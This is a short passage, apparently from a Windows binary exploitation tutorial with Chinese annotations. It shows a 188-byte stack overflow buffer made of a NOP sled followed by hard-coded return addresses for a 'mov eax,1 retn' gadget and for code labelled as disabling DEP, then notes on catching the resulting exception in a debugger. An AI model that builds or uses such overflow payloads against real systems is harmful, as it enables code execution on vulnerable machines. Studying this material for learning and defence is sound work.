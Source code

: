 0x0012feb0-0x0012fdfc=180 byte, 组织188 byte的shellcode
```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

goto 0x7c93cd24下断, F9直接运行, 在这里捕捉到异常(写入了一个无效地址)
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-004.png)
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-005.png)
